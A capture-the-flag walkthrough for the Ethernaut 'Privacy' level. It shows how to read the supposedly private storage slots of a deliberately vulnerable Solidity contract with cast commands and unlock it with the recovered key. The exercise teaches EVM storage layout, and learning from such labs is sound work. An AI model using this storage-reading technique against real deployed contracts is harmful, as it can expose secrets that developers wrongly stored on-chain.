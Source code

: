 ## Privacy Level Outline

**Difficulty : 8/10**

The creator of this contract was careful enough to protect the sensitive areas of its storage.

Unlock this contract to beat the level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Privacy {

  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(now);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) public {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x11343d543778213221516D004ED82C45C3c8788B)

## Solution

To solve this level, we need an understanding of how contract storage slots work and how they are assigned.

- The wordsize of the EVM is equal to 256 bits (32 bytes)
    - This means that each storage slot has a capacity of 32 bytes
- Statically sized variables are laid out contigously in storage starting at slot 0
    - Statically sized variables reffer to variables with a fixed size 
- If multiple variables of size less than 32 bytes are declared one after another, they are packed into a single storage slot based on the following rules :
    - The first item in a storage slot is stored lower-order aligned (little endian ordering) 
    - If an element type does not fit in the remaining part of a storage slot, it is moved to the next storage slot
    - Structs and array data always start a new slot and occupy whole slots (items inside a struct or array are packed tightly according to the above rules)
- The elements of structs and arrays are stored after each other, just as though they were given explicitly.

##### Extra Info Not Related To Level
- Due to their unpredictable size, mapping and dynamically-sized array types use a Keccak-256 hash computation to find the starting position of the value or the array data. These starting positions are always full stack slots.
- Constant variables are stored in code not contract storage

Read more about layout of state variables in Storage from the docs [here](https://docs.soliditylang.org/en/v0.4.24/miscellaneous.html)

### Walkthrough

*Let's inspect each memory slot individually and make sense of what is going on

##### 1. inspecting **storage slot 0**
```console
cast storage $LEVEL_ADDRESS 0
```
output 
```console
0x0000000000000000000000000000000000000000000000000000000000000001
```
we know that **storage slot 0** represents the variable `locked` as it is the first declared variable in our contrat. a value of 1 equals true which matches the value assigned to locked.

```solidity
bool public locked = true;
```
boolean types require 1 byte of storage, but because the next variable in our contract `ID` is of type `uint256`, it takes up 32 bytes to store (a full storage slot) meaning it cannot be packed with `locked` so it stored in the next storage slot. 

##### 2. inspecting storage slot 1
```console
cast storage $LEVEL_ADDRESS 1
```
output 
```console
0x000000000000000000000000000000000000000000000000000000006273be09
```

we know that storage slot 1 represents the variable `ID`. This means that the data we see is the hex representation of the block's Unix timestap (time since epoch)

```solidity
uint256 public ID = block.timestamp;
```

as mentioned before, `ID` takes up the whole storage slot as it is a `uint256` which requires 32 bytes (evm word size)

##### 3. inspecting storage slot 2
```console
cast storage $LEVEL_ADDRESS 2
```
output 
```console
0x00000000000000000000000000000000000000000000000000000000be09ff0a
```
we know that storage slot 2 represents the variables `flattening`, `denomination`, and `awkwardness` as they can be packed into a single storage slot

```solidity
uint8 private flattening = 10;
uint8 private denomination = 255;
uint16 private awkwardness = uint16(now);
```

remember that the evm uses little endian order when handling byte ordering so we read the memory slot from right to left
    - the byte `0a` is the uint8 variable **flattening**. We can confirm this as `a` is `10` in decimal
    - the byte `ff` is the uint8 variable **denomination**. We can confirm this as `ff` is `255` in decimal
    - the 2 bytes `be09` is the uint16 variable **akwardness**. The value represents the 16bit mask of the `block.timestamp`

##### 4. inspecting storage slot 3
```console
cast storage $LEVEL_ADDRESS 3
```
output 
```console
0x44a557ce091a1a07e9a3901396684f550c3cacb7705a0fd31c8828e285faea82
```
we know that storage slot 3 represents `data[0]` - the first element of the array data

```solidity
bytes32[3] private data;
```

`data` is an array of bytes32 which means that each element takes up 32 bytes (a whole storage slot)

##### 5. inspecting storage slot 4
```console
cast storage $LEVEL_ADDRESS 4
```
output 
```console
0x640a1bfd48f6be7abf68d08b273284d0e55ba9cfc823d8db74b24e6f486c5204
```
we know that storage slot 4 represents `data[1]` - the second element of the array data

```solidity
bytes32[3] private data;
```

##### 6. inspecting storage slot 5
```console
cast storage $LEVEL_ADDRESS 5
```
output 
```console
0x08f99efe07ce4fbea4eee5523a0e5d66aeb986ab62a85e5e53c1400155e1ae62
```
we know that storage slot 5 represents `data[2]` - the third element of the array data

```solidity
bytes32[3] private data;
```
we need the third element of `data` to pass the level, this is the value that we are interested in

##### 7. because the "unlock(bytes16 _key)" function expects a bytes16 variable and not a bytes32, we need to only pass the first 16 bytes of `data[2]` to the unlock function to complete this level
```console
cast send $LEVEL_ADDRESS "unlock(bytes16)" 0x08f99efe07ce4fbea4eee5523a0e5d66 --private-key $PRIVATE_KEY
```

## Further Reading
[how to read Ethereum contract storage](https://medium.com/aigang-network/how-to-read-ethereum-contract-storage-44252c8af925) by Darius - A practical guide
